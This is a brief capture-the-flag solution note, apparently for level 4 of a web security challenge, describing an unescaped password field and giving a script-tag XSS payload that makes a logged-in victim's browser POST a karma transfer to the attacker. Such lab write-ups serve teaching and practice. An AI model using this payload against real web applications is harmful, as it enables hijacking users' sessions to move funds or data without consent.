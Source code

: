 LEVEL 04
========

params[:password] not escaped and checked
XSS vulnerability, user karma_fountain logs in every minute... use to
send yourself karma to see his password

    <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>.
